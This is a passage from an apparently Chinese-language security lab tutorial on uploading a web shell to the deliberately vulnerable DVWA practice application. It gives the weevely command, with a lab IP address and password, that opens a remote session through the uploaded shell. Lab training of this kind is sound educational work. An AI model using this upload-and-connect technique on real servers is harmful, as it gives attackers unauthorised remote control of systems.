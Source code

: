 ![upload-file](../imgs/wm_324.png)

然后点击 `Upload` 将我们选择的文件上传至服务器。成功的上传让我们得到一个地址，并提示我们成功的上传了。

既然成功的在目标主机中埋下了雷，我们便可在 kali 中使用 weevely 中随时引爆它。

我们回到 kali 的终端中，我们使用 `weevely http://192.168.122.102/dvwa/hackable/uploads/webshell.php shiyanlou` 来与我们的“雷”建立连接，创建一个能够访问的通道--session。

其中 `http://192.168.122.102/dvwa/hackable/uploads/webshell.php` 表示的是我们上传的雷所在的位置，而 `shiyanlou` 是我们当时创建该文件时指定的建立连接的密码。

执行命令之后我们会得到这样的返回：

![show-run-weevely](../imgs/wm_325.png)
